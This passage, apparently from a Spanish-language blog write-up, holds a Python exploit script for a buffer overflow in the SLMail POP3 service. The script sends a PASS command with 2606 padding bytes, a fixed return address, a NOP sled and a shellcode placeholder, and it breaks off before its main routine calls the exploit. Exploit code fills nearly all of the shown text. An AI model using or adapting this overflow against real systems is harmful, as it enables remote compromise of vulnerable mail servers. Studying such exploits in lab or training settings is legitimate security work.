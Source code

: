   <img src="/assets/images/BOF-SLMail/script.png" alt="bof" width="2000" oncontextmenu="return false;">
</div>

>

```python
#!/usr/bin/python
# Autor liandd
from pwn import *
from struct import pack
import socket, sys

def exploit(ip_address, rport):
    # Escapar el shellcode con b para indicar que son bytes
    shellcode= (b"\ejemplo")

    buffer = b"A" * 2606 + pack("<L", 0x5f4a358f) + b"\x90"*16 + shellcode
    
    p1 = log.progress("Data")
    try:
        p1.status("Enviando %s bytes" % len(buffer))
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.recv(1024)
        s.send(b'USER eva\r\n')
        s.recv(1024)
        s.send(b'PASS ' + buffer + b'\r\n')
        s.recv(1024)
    except Exception as e:
        print("\n[!] Ha habido un error de conexión:", e)
        sys.exit(0)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print ("\n[!] Uso : python " + sys.argv[0] + " <ip-address>\n")
        sys.exit(0)

```